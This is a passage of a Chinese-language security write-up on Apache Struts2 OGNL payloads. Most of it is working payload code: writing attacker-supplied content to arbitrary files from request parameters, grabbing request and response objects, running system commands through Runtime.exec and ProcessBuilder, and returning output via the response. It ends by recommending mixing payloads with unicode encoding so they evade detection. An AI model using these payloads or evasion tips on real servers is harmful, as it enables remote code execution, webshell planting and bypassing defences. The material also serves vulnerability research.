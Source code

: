 ## 文件上传

所谓文件上传实际上就是文件写入，以下 payload 从请求中获取参数

```
#fos=new java.io.FileOutputStream(#req.getParameter("filename"))
#fos.write(#req.getParameter("filecontext").getBytes())
#fos.close()
```

链式调用写法
```
new java.io.BufferedWriter(new java.io.FileWriter("filepath")).append(#req.getParameter("filecontent")).close()
```

## request/response 对象

获取 request 对象
```
#request=@org.apache.struts2.ServletActionContext@getRequest()
#request=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletRequest")
```
获取 response 对象
```
#response=@org.apache.struts2.ServletActionContext@getResponse()
#response=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse")
```

## 命令执行

```
@java.lang.Runtime@getRuntime().exec('payload')
new java.lang.ProcessBuilder(new java.lang.String[]{"payload"}).start()
```

## 回显

一般都通过 response 对象来回显，可以 getWriter 写进去。

```
#writer=response.getWriter()
#writer.println("result")
#writer.flush()
#writer.close()
```

或 addHeader 加在响应头部都可以。
```
#response.addHeader("result",result);
```


以上的 payload 仅仅是网上比较常见的，但是其实还有多种实现方式，不局限于这几种，灵活搭配这些 payload，结合我们之前提到的各种不同的触发逻辑，再结合在漏洞调试中我们发现的 unicode 编码等特性，可以使 Struts2 的 payload 诡谲多变，不易被检测出来。
